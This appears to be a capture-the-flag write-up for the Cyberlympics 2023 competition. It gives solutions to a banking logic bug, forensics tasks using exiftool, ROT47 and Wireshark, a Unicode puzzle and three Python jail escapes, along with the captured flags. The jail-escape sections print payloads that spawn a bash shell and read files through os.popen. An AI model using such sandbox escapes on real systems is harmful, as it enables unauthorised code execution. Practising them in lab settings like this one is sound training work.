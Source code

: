 ## Binary Exploitation
- Flag Bank
  
## Forensic
- EdenZero
- SabekIntro
- Sabek01
  
## Miscellaneous
-  Disc0rd
-  Jail Break
-  Jail Break 2
-  Jail Break 3
  
## OSINT
- Mr. R0b0t
- Mr. R0b0t 2

## Reverse Engineering
- 34sy-r3v
- CodeX

## Steganography
- Meow meow!! 

## WEB
- Demon Slayer


# Flag Bank

![Flagbank](https://github.com/7h30ry/writeups/assets/51336409/63a07bba-ca25-4bb0-80db-10b26f170f8f)

This was basically an easy one.
After runing the binary file i got this
```
🏦 Welcome to the Flag Bank! To purchase a Flag costs $20000, but your current balance is $10000. Purchase a Test Flag at $3000
[1] Purchase Flag - $20000
[2] Purchase Test Flag - $3000
[3] View current balance
```
Since i know that there $10000 in balance and i need $20000 to purchase the 
I did to pick the secode option, i was then prompted with
```
Number of Test Flags do you need?
```
so i thought if i endered a positive number let say 3, money will be deducted so i decided to input a negative number -5 insted
and my money was increased, so i was able to purcase the flag

![Flag-bank](https://github.com/7h30ry/writeups/assets/51336409/260d7ca9-8313-43d3-968b-9bd521ef0601)


# EdenZero

![Screenshot from 2023-09-24 17-48-39](https://github.com/7h30ry/writeups/assets/51336409/c8ac2a83-d61e-43e0-bcdf-a63fa3111678)

We were given a zip file and Zip Password: Cyberlympics2023

Anfter unziping the file i got a file named flagishere.jpg but it wasn't actually a jpg it was a pdf file

![Screenshot from 2023-09-24 17-51-14](https://github.com/7h30ry/writeups/assets/51336409/6e097db3-3602-424b-acf8-73e401728b70)

so i did ```mv flagishere.jpg flagishere.pdf``` and got a pdf file

next thing i did was 
```
exiftool flagishere.pdf
```
and i got part of the flag

![Screenshot from 2023-09-24 17-54-07](https://github.com/7h30ry/writeups/assets/51336409/feaef4ce-3e02-4533-b0bd-516e4b5ea09b)

Next i open up the pdf file

![Screenshot from 2023-09-24 17-56-20](https://github.com/7h30ry/writeups/assets/51336409/0a5cf3a0-e583-4810-80b9-60f8d8ff7542)

![Screenshot from 2023-09-24 17-56-59](https://github.com/7h30ry/writeups/assets/51336409/b83cecf8-8c57-4033-a3b5-13f8642e8f7c)

There was nothing like a flag inside, so probably it's there and i cam't see it, so i highlted the whole page and copied everything
and paste it some where else and got a cipher ```D9_Hd0c==0D_>bE`>bdN```

![Screenshot from 2023-09-24 17-59-09](https://github.com/7h30ry/writeups/assets/51336409/c78991b7-7db5-49e9-8f99-4d21f294aa65)

So decrypting it using ROT47 i got the secode half of the flag

![Screenshot from 2023-09-24 18-00-36](https://github.com/7h30ry/writeups/assets/51336409/18c84dda-a724-4b30-9036-a2ffc6db00ff)
```FLAG: acdfCTF{c0mm3nt_buddy_sh0w5_4ll_s0m3t1m35}```


# SabekIntro
![Sabek-Intro](https://github.com/7h30ry/writeups/assets/51336409/4779049e-4ccc-404e-9051-8d25be76343f)

We were just asked ```How Many Packets were captured```

![Sabek-intro](https://github.com/7h30ry/writeups/assets/51336409/beda1a1a-fb54-484f-8a3a-52551cba83d8)

Opening up the pcap file with wireshark, at the botttom right we see the number of packets
```FLAG: acdfCTF{3322}```

# Sabek01

![Screenshot from 2023-09-24 18-07-42](https://github.com/7h30ry/writeups/assets/51336409/4f879af4-9719-411a-8541-d24d3230359d)

For this using the same pcap file
At the top bar in wireshark go to

```
View > Time Display Format > Date and Time of Day
```
once the seetings have been changed you will see the normal time format in the wireshark, juat copy the time for the first packet
whcih is the one at the very top, and the packet at the very last.. Join it and that is the flag

# Disc0rd

```
Here is your discord flag: Welcοme tｏ ｏｕr Ｄіｓｃord server! Ｈｅrｅ＇s ａ lіｔｔｌe ｓeｃrｅｔ ｊｕｓt ｆor ｙｏｕ: tｈerｅ ｉs ａ hⅰddｅｎ flａｇ ｈiｄｄｅn wｉｔhіｎ ｔhⅰs mｅｓsagｅ. Ｌeｔ's keep it between ourselves.
```
Using unicode decode 

```Flag: acdfCTF{k1sm3t_4nd_b3rry_1s_my_1d0l}```

# Jail Break

![Screenshot from 2023-09-24 18-19-09](https://github.com/7h30ry/writeups/assets/51336409/dcae4e55-ece2-4a8f-a27f-839c75afaaa4)

Payload used ```__import__('os').system('bash')```

![Screenshot from 2023-09-24 18-22-34](https://github.com/7h30ry/writeups/assets/51336409/a8fc4065-6f3f-498a-857d-812eeb779868)
```Flag: acdfCTF{Cyb3rlymp1cs_w4rmup_pyj41l_v3ry_345y_r1ght?}```

# Jail Break 2

![Screenshot from 2023-09-24 18-24-28](https://github.com/7h30ry/writeups/assets/51336409/bb4b34b5-6529-4c7b-a2bf-48f646b9fde5)

Payload used 

```
damn= ().__class__.__base__.__subclasses__()[59]()

print(damn._module.__builtins__['__import__']('os').popen("cat flag.txt").read())
```
![Screenshot from 2023-09-24 18-31-45](https://github.com/7h30ry/writeups/assets/51336409/c1c6db79-d82b-4444-b4e2-e3cacb043f78)
```Flag: acdfCTF{35c4p3_pl4n_1337_w0rk3d_y35!!}```

# Jail Break 3

![Screenshot from 2023-09-24 18-33-09](https://github.com/7h30ry/writeups/assets/51336409/3d90d702-9933-44b0-b710-dc533caabd61)

Payload gotten from 

https://ctf.rip/backdoor16-worstpwnever/
```Flag: acdfCTF{M45t3r_0f_j41l_br34k3r}```

